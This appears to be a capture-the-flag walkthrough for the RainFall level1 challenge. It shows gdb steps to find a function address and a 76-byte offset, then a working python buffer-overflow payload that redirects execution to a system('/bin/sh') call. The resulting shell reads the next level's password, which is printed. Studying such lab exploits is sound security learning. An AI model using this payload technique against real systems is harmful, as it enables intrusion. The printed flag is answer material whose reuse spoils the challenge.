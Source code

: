 # Walkthrough

**Main** : 
> The goal buffer overflow is to overwrite the (EIP) register, which controls the program's flow of execution.
> By controlling EIP, we can redirect the program to execute code of your choice.
> Exploiting a buffer overflow vulnerability to jump to another function 
> Make buffer overflow to launch a shell pogram.
> The idea is to blow the buffer in the  `main`  then jump to the  `run`  function
> The `run` function launch  a  `system("/bin/sh");`



**Process**:  
>   Get the address of `run` function
>   Find the offset
>   Payload


![stack frame ](stack_frame.png)

## Get the address of `run` function 
```
(gdb) info functions run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

## Get offset 
We find that the offset is **76**.

```
(gdb) run 
Starting program: /home/user/level1/level1 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () #---> 76 in decimal

```

## Payload

```

level1@RainFall:~$ (python -c "print '\x90' * 76 + '\x08\x04\x84\x44'[::-1]"; cat) | ./level1
Good... Wait what?
  cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

```

